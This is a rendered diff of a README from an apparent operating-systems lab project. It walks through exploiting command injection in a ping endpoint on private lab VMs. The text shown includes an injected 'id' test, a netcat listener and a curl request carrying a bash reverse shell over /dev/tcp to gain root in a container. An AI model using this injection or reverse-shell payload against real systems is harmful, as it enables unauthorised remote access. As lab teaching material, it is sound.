

Before and after one commit to Vishmayraj/OS-Project, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -70,7 +137,7 @@ No sanitization. Anything after a `;` runs as a separate shell command on the se
 
 ### 1. Confirm RCE
 
-From VM 2, visit:
+From VM2, visit:
 
 ```
 http://192.168.98.4:5000/ping?host=8.8.8.8;id
@@ -80,7 +147,7 @@ Response includes `uid=0(root)` - you have remote code execution as root inside
 
 ### 2. Get a Reverse Shell
 
-Start a listener on VM 2:
+Start a listener on VM2:
 
 ```bash
 nc -lvnp 4444
@@ -92,7 +159,7 @@ Trigger the shell:
 curl "http://192.168.98.4:5000/ping?host=8.8.8.8;bash+-c+'bash+-i+>%26+/dev/tcp/192.168.98.5/4444+0>%261'"
 ```
 
-The browser hangs. VM 2 receives the connection and you are now inside the container as root.
+The browser hangs. VM2 receives the connection and you are now inside the container as root.
 
 ### 3. Stabilize the Shell
 
````
Also changed, not shown: other parts of README.md (+98 -31 lines).
